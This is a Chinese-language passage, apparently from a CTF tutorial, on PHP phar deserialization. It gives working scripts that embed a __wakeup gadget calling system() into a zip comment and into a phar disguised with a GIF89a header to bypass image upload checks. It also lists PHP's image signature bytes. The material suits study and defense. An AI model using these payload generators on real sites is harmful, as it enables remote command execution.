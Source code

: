 gen_zip_phar.zip
```php
<?php

class Sink{
    function __wakeup(){
        system($this->cmd);
    }
}

$o = new Sink();
$o->cmd = "id";

$phar_file = serialize($o);
echo $phar_file;
$zip = new ZipArchive();
$res = $zip->open('test.zip',ZipArchive::CREATE); 
$zip->addFromString('test.txt', 'file content goes here');
$zip->setArchiveComment($phar_file); // payload 添加到 zip file 的 comment 中
$zip->close();
```


## 几种关键词绕过手段

### 上传绕过：绕过图片格式校验
在一些需要先上传 phar 文件的场景中，题目可能对上传文件的文件头进行了图片校验,PHP 在解析 phar 时会在文件内查找 `<?php __HALT_COMPILER(); ?>` 这个标签，这个标签前面的内容可以为任意值, 因此就可以在 `<?php __HALT_COMPILER(); ?>` 前添加图片头
```php
<?php
    class Sink{
        function __wakeup(){
            system($this->cmd);
        }
    }
    @unlink("test.phar");
    $phar = new Phar("test.phar");      
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
    $o = new Sink();
    $o->cmd = "id";
    $phar->setMetadata($o);
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
?>
```

php 源码中的 image.c 对图片头进行了定义：
```c
PHPAPI const char php_sig_gif[3] = {'G', 'I', 'F'};
PHPAPI const char php_sig_psd[4] = {'8', 'B', 'P', 'S'};
PHPAPI const char php_sig_bmp[2] = {'B', 'M'};
PHPAPI const char php_sig_swf[3] = {'F', 'W', 'S'};
PHPAPI const char php_sig_swc[3] = {'C', 'W', 'S'};
PHPAPI const char php_sig_jpg[3] = {(char) 0xff, (char) 0xd8, (char) 0xff};
PHPAPI const char php_sig_png[8] = {(char) 0x89, (char) 0x50, (char) 0x4e, (char) 0x47,
                                    (char) 0x0d, (char) 0x0a, (char) 0x1a, (char) 0x0a};
PHPAPI const char php_sig_tif_ii[4] = {'I','I', (char)0x2A, (char)0x00};
PHPAPI const char php_sig_tif_mm[4] = {'M','M', (char)0x00, (char)0x2A};
PHPAPI const char php_sig_jpc[3]  = {(char)0xff, (char)0x4f, (char)0xff};
PHPAPI const char php_sig_jp2[12] = {(char)0x00, (char)0x00, (char)0x00, (char)0x0c,
                                     (char)0x6a, (char)0x50, (char)0x20, (char)0x20,
                                     (char)0x0d, (char)0x0a, (char)0x87, (char)0x0a};
PHPAPI const char php_sig_iff[4] = {'F','O','R','M'};
PHPAPI const char php_sig_ico[4] = {(char)0x00, (char)0x00, (char)0x01, (char)0x00};
```